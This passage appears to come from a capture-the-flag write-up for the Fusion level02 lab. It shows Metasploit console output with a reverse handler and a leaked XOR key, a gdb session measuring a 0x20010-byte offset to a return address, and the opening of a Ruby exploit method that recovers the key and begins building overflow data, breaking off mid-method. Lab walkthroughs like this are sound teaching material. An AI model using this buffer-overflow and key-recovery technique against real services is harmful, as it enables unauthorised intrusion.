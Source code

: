 Execute the module:

{% highlight bash %}
msf exploit(level02) > reload
[*] Reloading module...
msf exploit(level02) > exploit

[*] Started reverse handler on 192.168.1.37:4444
[*] BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
msf exploit(level02) >
{% endhighlight %}

Success, we have leaked the key.

## <a name="creating-the-proof-of-concept"></a> Creating the Proof Of Concept
---
How much data do we need to send to overwrite the return address in the encrypt_file frame?

This will be the distance between the start of the buffer and the return address of the `encrypt_file` frame. Using gdb we can subtract these two values:

{% highlight bash %}
root@fusion:/home/fusion# gdb -q
0xb7750424 in __kernel_vsyscall ()
(gdb) b *encrypt_file+3
Breakpoint 1 at 0x80497fa: file level02/level02.c, line 31.
(gdb) c
Continuing.
[New process 28911]
[Switching to process 28911]

Breakpoint 1, 0x080497fa in encrypt_file () at level02/level02.c:31
31  level02/level02.c: No such file or directory.
(gdb) i r $ebp
ebp            0xbfa342b8 0xbfa342b8
(gdb) x/1wx &buffer
0xbfa142ac: 0x00000000
(gdb) p/x (0xbfa342bc - 0xbfa142ac)
$1 = 0x20010
(gdb)
{% endhighlight %}

The return address is located 0x20010 bytes from the start of the buffer. Lets confirm by sending 0x20014 bytes of encrypted data.

{% highlight Ruby %}
def exploit
  # Open the TCP connection
  connect

  # Receive initial messages
  buffered_recv(57)

  # Recover the encryption key
  data = "A" *128
  encrypted_data = encrypt(data.length, data)
  key = xor_encrypt(data, encrypted_data)

  # Create enough data to cause a crash